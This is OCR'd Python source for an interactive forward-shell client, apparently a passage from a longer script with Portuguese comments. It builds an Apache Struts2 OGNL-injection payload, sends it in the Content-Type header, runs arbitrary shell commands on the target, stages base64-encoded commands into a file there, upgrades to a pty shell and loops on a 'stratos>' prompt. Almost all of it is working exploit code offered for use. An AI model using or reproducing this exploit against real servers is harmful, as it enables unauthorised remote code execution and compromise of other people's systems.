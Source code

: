 ```
				self.RunRawCmd(ClearOutput)
			time.sleep(self.interval)

	# Executar comandos
	def RunRawCmd(self, cmd, timeout=50, proxy="http://127.0.0.1:8080"):
		#print(f"Vai rodar o comando: {cmd}")
		payload = "%{(#_='multipart/form-data')."
		payload += "(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)."
		payload += "(#_memberAccess?"
		payload += "(#_memberAccess=#dm):"
		payload += "((#container=#context['com.opensymphony.xwork2.ActionContext.container'])."
		payload += "(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class))."
		payload += "(#ognlUtil.getExcludedPackageNames().clear())."
		payload += "(#ognlUtil.getExcludedClasses().clear())."
		payload += "(#context.setMemberAccess(#dm))))."
		payload += "(#cmd='%s')." % cmd
		payload += "(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win')))."
		payload += "(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd}))."
		payload += "(#p=new java.lang.ProcessBuilder(#cmds))."
		payload += "(#p.redirectErrorStream(true)).(#process=#p.start())."
		payload += "(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream()))."
		payload += "(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros))."
		payload += "(#ros.flush())}"

		if proxy:
			proxies = self.proxies
		else:
			proxies = {}


		headers = {'User-Agent': 'QualquerCoisa', 'Content-Type': payload}
		try:
			r = requests.get(self.url, headers=headers, proxies=proxies, timeout=timeout)
			return r.text
		except:
			pass

	# Envindo b64'd comando para o RunRawCommand
	def WriteCmd(self, cmd):
		b64cmd = base64.b64encode('{}\n'.format(cmd.rstrip()).encode('utf-8')).decode('utf-8')
		stage_cmd = f"echo {b64cmd} | base64 -d > {self.stdin}"
		self.RunRawCmd(stage_cmd)
		time.sleep(self.interval * 1.1)

	def UpgradeShell(self):
		# Melhorando o shell
		UpgradeShell = """python3 -c 'import pty; pty.spawn("/bin/bash")'"""
		self.WriteCmd(UpgradeShell)

prompt = "stratos> "
S = WebShell()
while True:
	cmd = input(prompt)
	if cmd == "upgrade":
		prompt = ""
		S.UpgradeShell()
	else:
		S.WriteCmd(cmd)
```

